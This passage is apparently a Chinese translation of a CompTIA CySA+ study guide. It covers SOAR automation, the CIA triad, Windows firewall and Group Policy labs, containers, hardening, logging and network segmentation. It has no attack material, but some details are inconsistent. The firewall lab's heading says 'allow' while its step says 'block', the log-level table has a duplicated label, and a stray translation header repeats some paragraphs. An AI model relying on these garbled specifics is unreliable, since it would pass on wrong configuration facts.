标准化流程可以减少应对任务时所需的精力。你不再需要在下一次该任务出现时思考该做什么——你只需查阅该标准化流程的剧本（playbook），并执行你已经思考周全的步骤。这些流程的额外好处还确保了团队的不同成员在类似的情况下能够做出一致的响应。

# 网络安全自动化

标准化任务也有助于你识别自动化机会。你可能不仅局限于标准化团队成员的工作，还可以自动化某些响应，从而完全将人员排除在流程之外。用 CompTIA 的术语来说，你正在“最大限度地减少人工干预”。`安全编排、自动化和响应 (SOAR)`平台提供了许多自动化跨多个系统的安全任务的机会。你可能希望与团队其他成员协调，对团队执行的所有活动进行清单，并识别出适用于自动化的活动。可以自动化的流程的两个关键特征是：它们都是可重复的，且不需要人工交互。一旦部署了自动化，你只需要与团队协调来管理现有的自动化，并促进新自动化的采用。

`SOAR`平台还提供了改进组织对威胁情报利用的机会。通过将有关新出现威胁的信息引入你的`SOAR`平台，你可以丰富正在发生的事件的数据，并提高应对新兴网络安全状况的能力。`SOAR`平台为你提供了机会，通过整合多个威胁馈送接收的信息，构建出网络安全格局和你安全态势的完整视图。

# 技术与工具集成

网络安全充满了枯燥的工作。从对大型网络进行漏洞扫描到进行文件完整性测试，我们经常需要使用非常重复的流程来实现目标。如果我们尝试手动完成这些工作，将非常耗时，以至于在我们完成之前就会精疲力竭而停止。

工作流编排技术帮助我们自动化许多此类重复任务。除了我们讨论过的`SOAR`平台外，还有两种自动化工作流的方法：`scripting`，即编写自动执行我们工作的代码；以及`integration`，即使用供应商提供的接口将不同产品连接起来。

分析师通常利用`应用程序接口 (APIs)`作为集成多种安全工具的主要手段。`APIs`是用于服务的编程接口，允许你在不使用 Web 界面的情况下与该服务交互。通常情况下，你可以通过`API`执行与在服务的 Web 界面上相同的操作，但`API`允许你编写代码来自动化这些操作。

`APIs`对网络安全分析师来说非常强大，因为我们可以使用它们触及各种系统。我们的安全工具通常提供我们可以在自动化工作中利用的`APIs`，但许多其他技术服务也是如此。我们可以使用`APIs`自动化云资源的置备，从远程服务中检索访问日志，并自动化许多其他例行任务。

`Webhooks`允许我们使用 Web 请求从一个应用程序向另一个应用程序发送信号。例如，每当威胁情报平台收到新漏洞报告时，你可能希望运行漏洞扫描。在这种情况下，你可以在威胁情报平台中配置`webhook`动作，每当报告新漏洞时，都会向漏洞扫描器的`API`发送请求。该请求可以触发所需的扫描。

`Plug-ins`也增加了集成的机会。这些是运行在其他程序内部的小型程序，增加了额外的功能。例如，你可能使用插件在每次悬停在 IP 地址上时自动拉取信誉数据。

网络安全自动化的最终目标是实现“单一视图”（`single pane of glass`）方法。在这种哲学中，网络安全分析师将所有工具集成到单一平台中，以便他们可以使用一个一致的界面来执行所有工作。当然，这并不是一个真正可以实现的目标。总会有“多一个系统”阻止你真正达到`单一视图`。然而，作为一种设计原则，减少网络安全分析师每天必须使用的界面数量可以大幅提高他们的效率。

# 为事件响应带来效率

事件响应是自动化快速发展的领域之一，因为安全团队寻求将自动化的力量引入通常认为最以人为中心的任务中：调查活动。虽然自动化和其他安全工具可能会触发事件，但从该点起，事件响应者的工作通常是一个非常手的手的过程，涉及到部落知识、个人经验和直觉的应用。

## 丰富事件响应数据

虽然事件响应可能始终涉及大量的人工干预，但某些组织在自动化其事件响应程序的方面取得了成功。事件响应自动化的最佳起点之一是为人类分析师提供事件响应数据的自动化丰富，节省他们调查枯燥细节的时间。例如，当入侵检测系统识别出潜在攻击时，安全自动化工作流可以触发一系列活动。这些可能包括：

- 对攻击源地址进行侦察，包括 IP 地址所有权和地理位置信息
- 根据`安全信息和事件管理 (SIEM)`查询，用目标系统的其他日志信息补充初始报告。`SIEMs`是一项重要的安全技术，你可以在第 3 章中找到相关内容。
- 触发对目标系统的漏洞扫描，旨在帮助判断攻击成功的可能性

所有这些操作都可以在检测到事件后立即发生，并添加到跟踪系统中的事件报告中，供网络安全分析师审查。寻求实现事件响应数据丰富的团队将从观察第一响应者的例行活动，并识别任何可能作为自动化候选的信息收集需求中受益。

## 自动化事件响应剧本的部分

除了为响应事件的网络安全分析师提供丰富的数据外，自动化可能在提高响应操作效率方面发挥作用。事件响应团队通常使用剧本（playbooks），定义了他们在响应常见事件类型时遵循的步骤顺序。剧本中定义的动作可能包括旨在遏制事件、从网络中消除事件的影响以及恢复正常运行的活动。

在某些情况下，认为对安全事件的响应可以完全自动化化是合理的。例如，如果本地网络上的某个系统开始向远程 Web 服务器发送大量流量，理性的分析师可能会得出结论：该系统已被入侵，并参与了由僵尸网络驱动的拒绝服务攻击。该分析师的自然反应可能是立即隔离该系统以控制损害，然后将案例发送给适当的 IT 支持技术人员进行调查并解决问题。这种直接的响应是自动化的理想人选对象。安全自动化平台、网络设备和工单系统之间的集成可以在无需人工干预的情况下执行所有这些活动。

虽然对某些简单事件的响应可以是完全自动化的，但许多事件具有独特的特征，需要某种程度的人为干预。即使在这些情况下，事件响应剧本的部分内容在数据增强阶段之后仍然可以实现自动化。例如，网络安全分析师可能拥有仪表板，允许他们触发一系列活动，从而阻止单个用户对所有资源的访问、隔离可疑系统，或启动事件升级流程。

# 网络安全分析的未来

随着我们继续开发网络安全分析能力，我们所使用的工具和技术变得日益复杂。未来网络安全分析工具最具前景的领域是持续采用`machine learning`技术，这些旨在从安全系统产生的海量信息中自动提取知识。

机器学习技术已经整合到许多安全分析工具中，根据该工具其他用户的经验对数据进行自动分析。预计随着组织利用机器学习的力量，这些能力将继续发展，从而减少人类分析师进行繁琐数据筛选的需求，并使他们专注于机器学习算法的输出，这些输出将指导他们从事更有效率的工作。

# 总结

网络安全专业人员负责确保其所属组织维护的信息和系统的机密性、完整性和可用性。**机密性**确保未经授权的人员无法访问敏感信息。**完整性**确保信息或系统不会发生任何故意或无意的未经授权修改。**可用性**确保信息和系统在合法用户请求时随时准备就绪以满足其需求。这三个目标合称为`CIA Triad`（CIA 三要素模型）。

当网络安全分析师寻求保护其组织时，他们必须评估对`CIA Triad`的风险。这包括识别漏洞、识别相应的威胁，以及确定漏洞和威胁组合产生的风险水平。分析师随后必须评估每个风险，并确定适当的风险管理策略来缓解或其他处理风险。他们可以使用机器学习技术来协助这项工作。

网络安全分析师使用旨在降低风险可能性或影响的安全控制来缓解风险。网络安全控制包括网络访问控制（`NAC`）系统、防火墙和网络分。安全终端控制包括固系统配置、补丁管理、`Group Policies`和终端安全软件。

渗透测试和反向工程为分析师提供了保证，确保他们实施的缓解风险的控制运行正常。通过遵循严谨的风险分析和控制流程，分析师可以显著增强其所控信息和系统的机密性、完整性和可用性。

最后，网络安全分析师应该花时间通过效率和流程改进倡议投资到自己的运营实践中。标准化流程、简化操作以及整合技术和工具的项目将使网络安全分析师的工作变得更容易，提高生产力并减少错误概率。

# 考试要点

**了解网络安全的三个目标。** `Confidentiality`确保未经授权的人员无法访问敏感信息。`Integrity`确保信息或系统不会发生任何故意或无意的未经授权修改。`Availability`确保信息和系统在合法用户请求时随时准备就绪以满足其需求。

**了解网络安全风险是如何从威胁和漏洞的结合产生的。** 漏洞是设备、系统、应用程序或流程中的弱点，可能允许攻击的发生。网络安全世界中的威胁是指利用漏洞的外部力量。

**能够将网络安全威胁分类为敌对性的、意外的、结构性的或环境性的。** `Adversarial`威胁是试图故意破坏组织安全的个人、团体和组织。`Accidental`威胁发生在个人在执行日常工作时误执行了损害安全的操作。`Structural`威胁发生在设备、软件或环境控制由于资源耗尽、超出运行能力或仅仅由于老化而失效。`Environmental`威胁发生在组织无法控制的自然或人为灾害。

**理解如何通过使用网络访问控制、防火墙和划分使网络更安全。** 网络访问控制（`NAC`）解决方案帮助安全专业人员实现两个网络安全目标：限制授权人员访问网络，并确保访问组织的系统符合基本安全要求。网络防火墙位于网络边界并提供边界安全。网络划分通过隔离将不同安全级别的网络隔离开。

**理解如何通过固化配置、补丁管理、组策略和终端安全软件使终端更安全。** 固化配置包括禁用终端上不必要的的服务以减少其受攻击的敏感性、确保设备上存在安全配置设置并集中控制设备安全设置。补丁管理确保操作系统和应用程序不受已知漏洞的影响。`Group Policy`允许同时向许多设备应用安全设置，而终端安全软件防御恶意软件和其他威胁。

**了解渗透测试为组织提供了从攻击者视角审视安全的保障。** `NIST`渗透测试过程分为四个阶段：计划、发现、攻击和报告。渗透测试的结果是很有价值的安全规划工具，因为它们描述了攻击者可能利用来访问网络的实际漏洞。

**理解反向工程技术如何确定硬件和软件的内部运行机制。** `Sandboxing`是一种基于行为而非特征检测恶意软件的方法。其他反向工程技术难以执行、通常会失败且非常耗时。

# 了解机器学习技术如何促进网络安全分析。未来网络安全分析工具最有前景的领域是持续采用`machine learning`技术，这些技术旨在从安全系统产生的海量信息中自动提取知识。机器学习技术已经整合到许多安全分析工具中，根据其他工具用户的经验对数据进行自动化分析。

# 理解效率和流程改进对安全运营的重要性。网络安全分析是一项艰巨且有时是枯燥的工作。旨在简化操作、标准化标准流程以及增加工具和技术整合的项目使工作流变得更加顺畅。这不仅提升了网络安全分析师的效率和有效性，还减少了错误的概率。

# 实验练习

## 活动 1.1：创建入站防火墙规则

在本次实验中，你将验证服务器上已启用`Windows Defender Firewall`，然后创建一个阻止文件和打印机共享的入站防火墙规则。

这些实验指令是为运行`Windows Server 2022`的系统编写的。在其他版本的`Windows Server`上操作的过程相似，尽管服务、选项和图标的具体名称可能略有不同。

## 第 1 部分：验证 Windows Defender Firewall 是否启用

1. 打开你的`Windows Server`的`Control Panel`（控制面板）。
2. 选择`System and Security`（系统和安全）。
3. 在`Windows Defender Firewall`下，点击`Check Firewall Status`（检查防火墙状态）。
4. 验证`Private`（私有）网络的`Windows Defender Firewall`状态是否设置为`On`。如果没有开启，使用窗口左侧的`Turn Windows Defender Firewall on or off`链接启用防火墙。

## 第 2 部分：创建一个允许文件和打印机共享的入站防火墙规则

1. 在`Windows Defender Firewall`控制面板的左侧，点击`Allow an app or feature through Windows Defender Firewall`（通过 Windows 防火墙允许应用或功能）。
2. 滚动应用程序列表并找到`File and Printer Sharing`（文件和打印机共享）。


3. 勾选该项目左侧的复选框，以阻止与 `File and Printer Sharing` 相关的连接。

4. 确认选项右侧的 `Private` 框已自动选中。这允许同一局域网上的其他系统进行 `File and Printer Sharing`。`public`（公共）访问框应取消勾选，这表示远程系统无法访问此功能。

5. 点击 `OK` 应用设置。

### 活动 1.2：创建组策略对象

在本次实验中，你将创建一个组策略对象（GPO）并编辑其内容以强制组织的密码策略。

这些实验指令是为运行 `Windows Server 2022` 的系统编写的。在其他版本的 `Windows Server` 上操作的过程相似，尽管服务、选项和图标的具体名称可能略有不同。要完成本次实验，你的 `Windows Server` 必须被配置为 `domain controller`（域控制器）。

1. 打开 `Group Policy Management`（组策略管理）应用程序。（如果你在 `Windows Server` 上没有找到此程序，可能是因为它没有被配置为 `domain controller`。）

2. 展开与你的 `Active Directory`（活动目录）森林对应的文件夹。

3. 展开 `Domains`（域）文件夹。

4. 展开与你的 `domain`（域）对应的文件夹。

5. 右键点击 `Group Policy Objects`（组策略对象）文件夹，从弹出菜单中选择 `New`（新建）。

6. 将你的新 GPO 命名为 `Password Policy`（密码策略）并点击 `OK`。

7. 点击 `Group Policy Objects` 文件夹。

8. 右键点击新的 `Password Policy`，从弹出菜单中选择 `Edit`（编辑）。

9. `Group Policy Management` 打开后，展开 `Computer Configuration`（计算机配置）下的 `Policies`（策略）文件夹。

10. 展开 `Windows Settings`（Windows 设置）文件夹。

11. 展开 `Security Settings`（安全设置）文件夹。

12. 展开 `Account Policies`（账户策略）文件夹。

13. 点击 `Password Policy`。

14. 双击 `Maximum Age`（长时间）。

15. 在弹出窗口中，选择 `Define this policy`（定义此策略）并将过期值设置为 `90` 天。

16. 点击 `OK` 关闭窗口。

17. 双击 `Minimum Length`（最小长度）。

18. 与上一步相同，点击复选框定义此策略，并将最小长度设置为 `12` 个字符。

19. 点击 `OK` 关闭窗口。

20. 双击 `Password Must Meet Complexity`（密码必须满足复杂性）。

21. 点击复选框将策略设置为 `Enabled`（已启用）。

22. 点击 `OK` 关闭窗口。

23. 点击 `X` 退出 Group Policy Management。

你现在已成功创建了一个强制组织密码策略的组策略对象。你可以根据需要将此 GPO 应用于用户和/或组。

### 活动 1.3：编写渗透计划

在本次活动中，你将为你选择的任意组织设计一个渗透测试计划。如果你已在职，可以选择使用你雇主的网络。如果你是学生，可以选择你的学校。否则，你可以选择任何真实或虚构的组织。

在启动任何测试之前，你的渗透测试计划应涵盖三个主要标准：

*   时间 (Timing)
*   范围 (Scope)
*   授权 (Authorization)

### 活动 1.4：识别安全工具

将表中所列每种安全工具与其正确的描述匹配。

| 工具 | 描述 |
| :--- | :--- |
| Firewall (防火墙) | 确定哪些客户端可以访问有线或无线网络 |
| Decompiler (反编译器器) | 创建文件的唯一指纹 |
| Antivirus (杀病毒软件) | 根据源、目的和端口过滤网络连接 |
| NAC (网络访问控制) | 故意创建的看似有漏洞的系统 |
| GPO (组策略对象) | 尝试从二进制代码恢复源代码 |
| Hash (哈希值) | 扫描系统中的恶意软件 |
| Honeypot (蜜罐) | 防止 SQL 注入攻击 |
| WAF (Web 应用程序防火墙) | 向多个 Windows 系统部署配置设置 |

---

### 第二部分：章节目录/引言翻译

# 了解机器学习技术如何促进网络安全分析。未来网络安全分析工具最有前景的领域是持续采用 `machine learning` 技术，这些技术旨在从安全系统产生的海量信息中自动提取知识。机器学习技术已经整合到许多安全分析工具中，根据其他工具用户的经验对数据进行自动化分析。

# 理解效率和流程改进对安全运营的重要性。网络安全分析是一项艰巨且有时是枯燥的工作。旨在简化操作、标准化标准流程以及增加工具和技术整合的项目使工作流变得更加顺畅。这不仅提升了网络安全分析师的效率和有效性，还减少了错误的概率。

## 第 2 章 系统与网络架构

安全运营需要对基础设施、网络架构和身份访问管理的基础概念有理解。现代基础设施通常包括虚拟化、无服务器和容器化，同时在本地和云端运行。这创建了复杂的安全环境，需要理解后才能进行有效保护。

同时，安全专业人员需要理解计算机和系统所依赖的操作系统。加固系统、了解文件系统、意识系统进程，甚至是他们所保护系统的底层硬件架构都是从业者必须的技能。

除了这些核心基础设施和系统概念，加密、敏感数据保护以及创建、分析和审核日志等额外的能力对于安全运营也同样重要。

在本章中，你将学习当前基础设施的设计概念和技术。随后，你将探索基础操作系统概念和安全实践。接下来，将将回顾现代网络架构和安全设计的主要元素。最后，你将深入研究身份访问管理、加密、敏感数据保护，以及日志如何在这些领域中被使用以帮助安全运营。

CySA+ 考试目标重点关注与安全运营和基础设施相关的三个核心概念：无服务器计算、虚拟化和容器化。这三个模型广泛应用于现代系统和服务中，作为安全专业人员，你可以预计自己会频繁遇到它们。在回顾其中每项内容时，请考虑它们如何影响安全运营，包括它们在日常安全活动和需求方面的相似之处与不同之处。

## 无服务器 (Serverless)

广义上，`Serverless` 计算描述的是云计算，但在目前大多数使用场景中，它指的是有时被称为“函数即服务”（`FaaS`）的技术。本质上，无服务器计算依赖于一个在函数被调用时执行这些函数的系统。这意味着当需要执行某项操作时，函数就会运行——这就是“函数调用”。亚马逊的 `AWS Lambda`、谷歌的 `App Engine` 和 `Azure Functions` 都是无服务器计算 `FaaS` 实现的示例。在这些情况下，安全模型通常将函数视为与其他代码无异，这意味着用于软件开发的相同控制措施也需要适用于函数服务环境。此外，适用于云计算环境的适当控制措施（如访问控制和权限，以及监控和资源管理能力）对于确保部署的安全也是必要的。

无服务器化带来了许多优势，包括在某些情况下可以降低成本，因为它是按需计费，而不是持续运行。此外，服务器维护和管理等开销成本不再是考虑因素，因为服务是根据应用程序或服务所需的规模和频率按需直接使用的。

## 虚拟化 (Virtualization)

虚拟化使用软件在底层的真实硬件上运行虚拟计算机。这意味着你可以运行多个系统，运行多个操作系统，而所有这些系统都像运行在它们自己的硬件上一样。这种方法对资源使用情况以及呈现给客操作系统的硬件等因素提供了额外的控制，并且由于你可以利用共享资源，允许对底层硬件的高效利用。

虚拟化有多种使用方式。它被用于实现 `虚拟桌面基础设施 (VDI)`，该技术在中央硬件上运行如 `Windows` 等桌面操作系统，并通过网络将桌面流传输到各个系统中。许多组织将其几乎所有的服务器都虚拟化，运行虚拟化主机的集群来承载其所有的基础设施。虚拟安全设备以及其他供应商提供的虚拟解决方案也是虚拟化生态系统的一部分。

虚拟化的优势也给安全专业人员带来了挑战，他们现在必须确定如何对虚拟环境中的问题进行监控、防护和响应。与我们讨论过的安全设计的其他元素类似，需要预先规划并投入精力来理解贵组织将使用的架构和实现方式。

## 容器化 (Containerization)

`Containerization` 为虚拟化整个系统提供了一种替代方案，它允许应用程序运行在自己的环境中，并在专用的容器中带有其所需的组件（如库、配置文件和其他依赖项）。`Kubernetes` 和 `Docker` 是容器化技术的示例。

容器提供了应用级的虚拟化。容器不是创建需要独立操作系统的复杂虚拟机，而是对应用程序进行打包，并将其视为虚拟化单元，这些单元在不同的操作系统和硬件平台之间具有可移植性。

容器化是将软件与其所需的库和其他依赖项打包的过程。这创建了轻量级、可移植的容器，可以轻松地在环境之间移动，同时由于它们使用宿主机系统，因此比虚拟机更节省资源。

实施容器化的组织运行如 `Docker` 之类的容器化平台，这些平台为操作系统资源提供了标准的接口。无论底层的操作系统或硬件如何，该接口都保持一致，且接口的一致性允许容器根据需要跨系统进行切换。

容器化平台与虚拟化平台具有许多相同的安全考虑因素。它们必须强制容器之间的隔离，以防止当运行在一个容器中的应用程序无意或有意地与分配给另一个容器的资源进行交互时可能发生的运行和安全问题。

容器化允许高水平的可移植性，但也创造了新的安全挑战。传统的基于主机的安全对于底层的容器化服务器可能有效，但容器本身需要不同的处理方式。同时，由于许多容器运行在同一个服务器上，对 `host OS` 的威胁可能会影响许多容器化服务。幸运的是，存在用于签名容器镜像以及监控和补丁容器的工具。这些工具之外，传统的加固、应用和服务监控以及审计工具也是很有用的。

在处理容器化系统时，请记住共享的底层主机以及通常用于容器的快速部署模型。安全必须被集成到和服务软件开发生命周期中，并集成到系统维护和管理过程中。

云服务提供商提供了许多不同的容器化服务，许多组织管理着自己的 `Kubernetes` 或 `Docker` 基础设施。你可以在此处阅读更多关于 `Docker` 的信息：

`www.docker.com`

微软在此提供了关于通用容器化技术的有用概述：

`https://azure.microsoft.com/en-us/resources/cloud-computing-dictionary/what-is-a-container`

## 操作系统概念 (Operating System Concepts)

在底层系统和基础设施到位后，需要考虑的下一层是操作系统（`OS`）。保护操作系统需要理解文件系统、配置管理和系统加固，以及 `OS` 本身是如何工作的。

## 系统加固 (System Hardening)

安全从业务人员需要理解如何通过减少攻击面来保护系统。这意味着在保留系统所需功能的同时，减少攻击者可能破坏或影响系统的潜在方式。对于现代组织中使用的所有技术（包括软件、硬件、网络和服务），都存在加固技术和流程。在这里，我们将关注系统加固概念。

系统加固通常依赖于许多常见做法：

* 更新并修补系统
* 移除不必要的软件和服务
* 限制并记录管理员访问
* 控制新账户的创建
* 启用日志并使用适当的监控
* 使用磁盘加密和安全启动等功能

组织经常使用行业最佳实践驱动的基准作为其系统加固活动的基础。互联网安全中心 (`CIS`) 为常见的操作系统提供了一系列系列加固指南和配置基准。你可以在此处找到 `Windows 11` 桌面基准：

`www.cisecurity.org/benchmark/microsoft_windows_desktop`

以及其他基准，如各种 `Linux` 发行版、`macOS`、`iOS` 以及常用的软件和服务：

`www.cisecurity.org/benchmark`

虽然组织通常根据 CIS 基准（CIS benchmark）等标准进行系统加固实践，但它们也需要确保基准中包含的设置和更改不会干扰其运行。这意味着采用基准需要经过深思熟虑的分析，并在真实环境中进行测试，以确保关键功能不受影响。这同时也意味着需要更改基准的组织应该考虑为什么它们的工具、服务或配置需要与不同，以及这是否会为其运行或系统带来额外风险。

## Windows 注册表

`Windows Registry`（Windows 注册表）是一个包含操作系统设置的数据库。程序、服务、驱动程序操作系统本身都依赖于存储在 `Registry` 中的信息，这使其成为一个关键资源，也是恶意活动频繁攻击的目标，因为它对于持久化非常有用。

图 2.1 显示了 `regedit`，这是内置的 Windows 注册表编辑工具，用于查看有关 Windows Defender 的注册表信息。`Registry` 中的项通常具有名称、类型和数据值，你可以对其进行设置。



图 2.1 使用 `regedit` 查看 Windows 注册表

如表 2.1 所示，`Windows Registry` 有五个主根键。

表 2.1 五个主根键

| 根键 | 说明 |
| --- | --- |
| `HKEY_CLASSES_ROOT` (HKCR) | COM 对象注册信息。将文件类型与程序关联。 |
| `HKEY_LOCAL_MACHINE` (HKLM) | 系统信息，包括计划任务和服务 |
| `HKEY_USERS` (HKU) | 关于用户账户的信息 |
| `HKEY_CURRENT_USER` (HKCU) | 关于当前登录用户的信息 |
| `HKEY_CURRENT_CONFIG` (HKCC) | 当前本地硬件配置文件信息存储 |

每个根键都有 `Registry` 组程序（hives），这些是与根键连接的键和值的组。每个键都可以包含值，包括字符串、二进制数据、数值数据、指向其他 `Registry` 键的链接或 Windows 特定的组件数据。

`Registry` 键本身可以使用 Windows 原生访问控制进行保护，根据配置允许或拒绝访问，并提供审计信息。

## 文件结构与文件位置

虽然考试不会要求你背下 Linux 和 Windows 文件系统的结构，但你应该对这两个操作系统倾向于如何组织文件位置有基本的了解。你还希望知道它们最常存储关键文件的位置，因为文件结构和配置文件位置都是考试目标的一部分。

`CySA` 考试目标将配置文件位置包含为一个关键项。虽然配置文件的位置可能会异，但每个主要的操作系统都有通用的位置。

Windows 配置信息通常存储在 `Windows Registry` 中，尽管额外的配置信息可能存储在 `C:\ProgramData\` 或 `C:\Program Files\` 目录，以及用户的 `AppData` 目录。

Linux 配置信息通常存储在 `/etc/` 目录。

macOS 通常将信息存储在 `~/Library/Preferences` 中。

## 系统进程

`System processes`（系统进程）是核心。在 Windows 中，它们包括 `ntkrnl.exe`、`smss.exe`、`services.exe`、`winlogon.exe`、`wininit.exe`、`lsass.exe` 和 `explorer.exe`。常见的影响之一是攻击者可能会针对这些进程。`System processes` 是安全操作的关键部分。

## 硬件架构

系统的底层 `hardware architecture`（硬件架构）可能会影响安全。虽然大多数计算机运行在 `x86` 上，但 `ARM`架构的使用正在增加，例如 Apple 的 `M1` 和 `M2` 芯片。尽管如此，了解 `hardware architecture` 并不保证安全。

## 日志、日志与采集

日志是一项复杂的任务。`CySA` 考试目标关注两个两个方面：时间同步和日志级别。

### 时间同步

系统和服务之间的 `Time synchronization` 对日志分析至关重要。如果时间没有正确准确地同步，事件将不会按正确的顺序在正确的时间出现。这可能导致评估不准确或误导场景。

幸运的是，网络时间协议（NTP）以及 NTP 服务器可以实现简单的时间同步。这意味着系统管理员和安全从业人员的一个重要步骤是在发生事件或问题之前，通过定期检查和服务确保时间同步正在进行并且是正确的。

你可以在此处阅读更多关于 Windows 时间服务的设置：

`https://learn.microsoft.com/en-us/windows-server/networking/windows-time-service/windows-time-service-tools-and-settings`

可以在此处找到一个适用于大多数发行版的 Linux NTP 指南：

`https://timetoolsltd.com/ntp/how-to-install-and-configure-ntp-on-linux`

### 日志级别

网络设备日志文件通常关联 `log level`（日志级别）。虽然日志级别的定义不同，但许多与 Cisco 的日志级别相似，如表 2.2 所示。

| 级别 | 级别 | 示例 |
| --- | --- | --- |
| 0 | 紧急 | 故障导致设备关闭 |
| 1 | 警告 | 超过温度限制 |
| 2 | 严重 | 软件故障 |
| 3 | 错误 | 接口禁用消息 |
| 4 | 警告 | 配置更改 |
| 5 | 通知 | 链路协议启用/禁用 |
| 6 | 信息 | ACL 违反 |
| 7 | 调试 | 调试消息 |

安全从业人员需要理解日志级别，以及设置日志级别对数据捕获意味着什么。如果你的组织设置的日志级别没有捕获你所需的数据，你可能会错过重要信息。如果你设置了过于详细的日志级别（例如日志级别 7），它可能会提供海量的细节，这些细节在大多数情况下是没用的。

## 通用日志考虑因素


虽然 CySA+ 考试目标没有特别提到这些内容，但你仍然需要记住日志基础设施的几项通用最佳实践：

- 日志应该包含足够的信息以发挥作用，并能够以实用的方式进行解释，因此必须同时包含含义和上下文。
- 日志应该受到保护，以防其被篡改。
- 日志应该发送到中心位置，以便在其中进行存储、分析和报告。
- 应该对日志进行验证，以确保它们包含了在发生问题或事件时所需的信息。
- 应该作为正常系统监控的一部分对日志进行检查，以确保应该发送日志的系统正在发送。
- 应该避免不必要的日志信息，以节省空间和资源。
- 应该根据组织和系统的需求实施适当日志保留策略和实践。

## 网络架构

了解你的网络是如何设计的、网络上存在哪些设备及其目的和能力，以及你可以使用这些设备应用哪些控制措施，对于保护网络至关重要。传统的物理网络、软件定义网络、混合云、云和虚拟网络在许多组织中并行存在，你需要理解这些技术每如何影响你组织的架构和安全态势。

### 本地（On-Premises）

`on-premises` 网络架构由路由器、交换机、安全设备、布线以及构成传统网络的所有其他网络组件组成。你可以在物理网络上利用广泛的安全解决方案，但安全设计的常见元素包括以下内容：

- 用于控制网络或系统之间流量流的防火墙。
- 入侵防御系统（`IPSs`），可以检测并阻止攻击；入侵检测系统（`IDSs`），仅在检测到攻击时发出报警或通知。
- 内容过滤和缓存设备，用于控制通过受保护设备的信息。
- 网络访问控制（`NAC`）技术，控制哪些设备能够连接到网络，并可以在允许连接之前评估设备的安全状态或要求其他信息。
- 网络扫描器，可以识别系统并收集有关它们的信息，包括它们运行的服务、补丁级别以及关于系统的其他细节。
- 统一威胁管理（`UTM`）设备，结合了许多此类服务，通常包括防火墙、`IDSs/IPSs`、内容过滤和其他安全功能。

在准备 CySA+ 考试时，请熟悉这些常见设备及其基本功能，以便你将它们应用到网络安全设计中。

### 云（Cloud）

整个组织向使用云服务的转变不仅改变了边界并推动了对零信任环境的需求，还产生了组织需要更新其安全实践的需要，以适应更具渗透性、更多样化的运行环境。

与本地系统不同，云服务提供商提供的底层环境通常不供安全从业人员访问以进行配置、测试或其他控制。这意味着保护云服务需要不同的方法。

对于大多数软件即服务（`SaaS`）和平台即服务（`PaaS`）供应商，安全将主要通过合同义务来。配置和实施选项可能会带来安全挑战，身份和访问管理在这些环境中也很重要。

`AWS`、`Azure`、`Google` 等基础设施即服务（`IaaS`）供应商提供了更多的基础设施访问权限，因此围绕操作系统配置、管理和补丁的某些传统安全问题也将适用。同样，服务和应用程序需要以安全的方式进行安装、配置和维护。云提供商通常提供额外的面向安全的服务，这些服务在他们的环境中可能有用，并可能替代或补充你在本地可能使用的工具。

许多云供应商会根据要求提供审计和评估结果，通常在提供信息之前需要签署非保密协议。

在考虑本地与云安全的对比时，你应该检查每个环境中存在哪些选项，哪些威胁是相关的，哪些是不同的（如果有的话）。评估适用于或特定于你的云服务提供商的安全能力、态势、威胁和风险也是一项重要任务。

虚拟私云云（`virtual private cloud`, `VPC`）是云服务提供商提供的选项，用于构建按需的半隔离环境。`VPC` 通常存在于私有子网，并可能有额外的安全措施以确保系统间通信的安全。

### 混合（Hybrid）

`hybrid` 网络架构结合了本地和云基础设施及系统。这会引入复杂性，因为每个不同的环境都必须安全并有一个适用于整个基础设施的安全模型。尽管如此，由于组织从本地数据中心迁移到云服务和云基础设施即服务模型，同时保留了一些现场服务和系统，因此混合架构非常常见。

### 网络分段（Network Segmentation）

提供分层防御通常涉及分段或分离。物理 `segmentation` 涉及在单独的基础设施或网络上运行。系统隔离通过确保基础设施是分离的来处理，甚至可以到使用物理隔离（air gap），以确保基础设施之间完全没有连接。

虚拟分段利用虚拟化能力将功能分离到虚拟机或容器中，尽管某些虚拟化分段的实现方式在运行独立虚拟机的同时，还运行在独立的物理服务器上。

网络分段（`network segmentation`）或分区是网络设计的常见元素。它提供了许多优势：

- 通过对系统和网络进行分区，可以减少暴露给攻击者的系统（通常称为组织的攻击面）的数量。
- 通过将必须合规的系统、数据或单元放置在与组织其他部分更易维护的环境中，可以帮助限制合规性工作的范围。
- 在某些情况下，分段可以通过限制问题或攻击的影响来提高可用性。
- 分段被用于提高网络效率。单个网段内系统数量过多会导致网络拥塞，使得分段在网络增大时具有吸引力。

网络分段可以通过许多方式实现，但出于安全考虑，通常在具有不同信任级别或功能要求的网络段之间使用经过设计的规则集的防火墙。网络分段还经常依赖支持 `VLAN`（虚拟局域网）标记的路由器和交换机。在某些需要分段但不需要更细致控制的情况下，分段仅通过路由器或交换机处理。

访问此类分段环境的一种常见解决方案是使用跳板机（`jump box`，有时称为跳板服务器），这是一种位于分段环境中的系统，用于访问和管理其所在区域内的设备。跳板机跨越两个不同的安全区域，因此应对其进行仔细的安全防护、管理和监控。

除了跳板机，另一种从不同安全区域提供远程访问以及进入分段网络的常见方法是通过`virtual private network`（`VPN`）。虽然`VPNs`在技术上并不一定需要提供加密层来保护其承载的流量，但几乎所有现代实现都会使用加密，同时提供安全连接，使系统或设备能够访问远程网络。

